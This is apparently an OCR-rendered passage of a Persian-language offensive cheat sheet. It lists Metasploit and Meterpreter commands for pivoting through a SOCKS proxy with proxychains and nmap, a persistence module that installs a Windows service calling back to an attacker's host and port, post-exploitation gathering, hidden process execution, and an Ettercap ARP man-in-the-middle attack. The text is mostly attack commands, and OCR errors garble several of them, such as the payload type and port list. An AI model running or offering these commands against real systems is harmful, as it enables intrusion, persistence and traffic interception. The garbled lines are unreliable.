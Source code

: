 ```text
1. msf sessions #Note Meterpreter ID
2. msf route add 3.3.3.0 255.255.255.0 id
3. msf use auxiliary/server/socks4a
4. msf run
5. Open new shell and edit /etc/proxychains.conf
i. #proxy_dns
ii. #socks4 127.0.0.1 9050
iii. socks4 1.1.1.1 1080
6. Save and Close conf file
7. proxychains nmap -sT -Pn -p80,:35,s45 3.3.3.3
```

### Railgun -  api مربوط به نمایش پیام خاص 

```text
meterprete irb
client.railgun.user32.MessageBoxA(O,"got","YOU","MB_OK")
```

### ایجاد سرویس ویندوز پاییدار

```text
msf use post/windows/manage/persistence
msf set LHOST attack ip
msf set LPORT callback port
msf set PAYLOAD_TYPE TCPIHTTPIHTPS
msf set REXENAHE filename
msf set SESSION meterpreter session id
msf set STARTUP SERVICE
```

### جمع آوری آخرین فایل های درخواست شده و لینک های وب

```text
meterpreter run post/windows/gather/dumplinks
```

### ایجاد فرآیند جدید و دستور tree c:\

```text
execute -H -f cmd.exe -a '/c tree /F /A c:\ C:\temp\tree.txt'
```

## نرم افزار Ettercap

### حمله Main-In-Middle با استفاده از فیلتر ها 

```text
ettercap.exe -I iface -M arp -Tq -F file.ef MACs / IPs / Ports
MACs / IPs / Ports
#i.e.: // 80,443 // = any MAC, any IP, ports 80,443
```
